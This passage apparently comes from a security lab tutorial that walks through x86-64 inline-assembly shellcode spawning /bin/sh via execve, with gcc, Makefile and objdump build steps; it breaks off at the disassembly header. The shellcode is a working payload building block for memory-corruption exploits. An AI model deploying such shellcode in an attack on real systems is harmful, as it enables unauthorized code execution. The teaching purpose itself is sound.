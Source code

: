 }

&nbsp;

The shell code we are using is essentially just the assembly version of the above program (just modified to store the strings on the stack). The simple assembly version is called shellCode.c:

&nbsp;

<strong>int main() { </strong>

<strong>__asm__( </strong>

<strong>&nbsp; “mov&nbsp;&nbsp;&nbsp; $0x0,%rdx\n\t”&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; // arg 3 = NULL </strong>

<strong>&nbsp; “mov&nbsp;&nbsp;&nbsp; $0x0,%rsi\n\t”&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; // arg 2 = NULL </strong>

<strong>&nbsp; “mov&nbsp;&nbsp;&nbsp; $0x0068732f6e69622f,%rdi\n\t” </strong>

<strong>&nbsp; “push&nbsp;&nbsp; %rdi\n\t”&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; // push “/bin/sh” onto stack </strong>

<strong>&nbsp; “mov&nbsp;&nbsp;&nbsp; %rsp,%rdi\n\t”&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; // arg 1 = stack pointer = addr of “/bin/sh” </strong>

<strong>&nbsp; “mov&nbsp;&nbsp;&nbsp; $0x3b,%rax\n\t”&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; // syscall number = 59 </strong>

<strong>&nbsp; “syscall\n\t” </strong>

<strong>); </strong>

<strong>} </strong>

This is roughly equivalent to the system call: execve(“/bin/sh”,NULL,NULL);

&nbsp;

To build the code, compile the code using: <strong>gcc –o shellCode shellCode.c</strong>, or just type the command: <strong>make shellCode</strong>. Notice, there is a Makefile in the same folder with the sample code, so when you type <strong>make shellCode</strong>, the section labeled shellCode: is executed:

&nbsp;

<strong>shellCode: shellCode.c </strong>

<strong>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; gcc -o shellCode shellCode.c </strong>

&nbsp;

Dependencies are shown on the first line, e.g., shellCode.c – we need the source to build it, and the command executed is shown on the second line (there is a single tab in front of the gcc). Recall that we can dump the executable code to examine its contents using objdump; e.g., <strong>objdump –d shellCode</strong>.

<strong>.. </strong>

<strong>0000000000000660 &lt;main&gt;: </strong>
